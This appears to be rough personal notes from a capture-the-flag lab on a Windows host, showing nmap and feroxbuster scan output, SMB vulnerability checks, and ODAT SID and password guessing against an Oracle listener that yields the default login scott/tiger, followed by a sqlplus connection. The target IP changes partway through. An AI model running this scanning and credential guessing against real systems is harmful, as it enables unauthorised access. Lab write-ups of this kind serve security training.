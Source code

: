 └─$ nmap -sC -sV -oA nmap/initial 10.129.84.231
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-30 08:08 EDT
Nmap scan report for 10.129.84.231
Host is up (0.084s latency).
Not shown: 988 closed tcp ports (conn-refused)
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 8.5
|_http-server-header: Microsoft-IIS/8.5
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1521/tcp  open  oracle-tns   Oracle TNS listener 11.2.0.2.0 (unauthorized)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  oracle-tns   Oracle TNS listener (requires service name)
49160/tcp open  msrpc        Microsoft Windows RPC
49161/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   302: 
|_    Message signing enabled but not required
|_clock-skew: mean: -1s, deviation: 0s, median: -2s
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: supported
| smb2-time: 
|   date: 2023-04-30T12:10:24
|_  start_date: 2023-04-29T17:55:15

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 138.87 seconds


![](20230430082130.png)

./feroxbuster -u https://10.129.84.231 -x php,html

```
6    
[####################] - 6m     90000/90000   244/s   http://10.129.84.231/ 
[####################] - 6m     90000/90000   245/s   http://10.129.84.231/aspnet_client/ 
[####################] - 7m     90000/90000   211/s   http://10.129.84.231/Aspnet_client/ 
[####################] - 7m     90000/90000   201/s   http://10.129.84.231/aspnet_Client/ 
[####################] - 7m     90000/90000   197/s   http://10.129.84.231/aspnet_client/system_web/ 
[####################] - 7m     90000/90000   204/s   http://10.129.84.231/ASPNET_CLIENT/ 
[####################] - 7m     90000/90000   212/s   http://10.129.84.231/Aspnet_client/system_web/ 
[####################] - 6m     90000/90000   239/s   http://10.129.84.231/aspnet_Client/system_web/ 
[####################] - 4m     90000/90000   317/s   http://10.129.84.231/ASPNET_CLIENT/system_web/ 
```


 nmap -p445 --script smb-vuln-* 10.129.84.231
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-30 09:29 EDT
Nmap scan report for 10.129.84.231
Host is up (0.082s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: No accounts left to try

Nmap done: 1 IP address (1 host up) scanned in 11.98 seconds

installing odat

we first enumerate sids then guess the password
./odat.py sidguesser -s 10.129.84.231 -p 1521   
./odat.py passwordguesser -s 10.129.95.188 -d XE  
[+] Accounts found on 10.129.95.188:1521/sid:XE: 
scott/tiger


scott/tiger is a password

sqlplus scott/tiger@10.129.95.188:1521/XE



